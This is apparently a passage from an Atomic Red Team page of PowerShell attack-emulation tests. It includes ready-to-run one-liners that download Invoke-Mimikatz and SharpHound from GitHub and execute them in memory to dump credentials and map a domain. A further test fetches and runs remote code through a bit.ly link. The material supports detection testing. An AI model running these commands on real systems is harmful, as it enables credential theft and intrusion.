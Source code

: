 - [Atomic Test #13 - PowerShell Downgrade Attack](#atomic-test-13---powershell-downgrade-attack)

- [Atomic Test #14 - NTFS Alternate Data Stream Access](#atomic-test-14---ntfs-alternate-data-stream-access)


<br/>

## Atomic Test #1 - Mimikatz
Download Mimikatz and dump credentials

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| mimurl | Mimikatz url | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```



<br/>
<br/>

## Atomic Test #2 - BloodHound
Download Bloodhound and run it

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bloodurl | BloodHound URL | url | https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1|


#### Run it with `command_prompt`! 
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{bloodurl}'); Invoke-BloodHound"
```



<br/>
<br/>

## Atomic Test #3 - Obfuscation Tests
Different obfuscated methods to test
Reaches out to bit.ly/L3g1t to stdout: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"
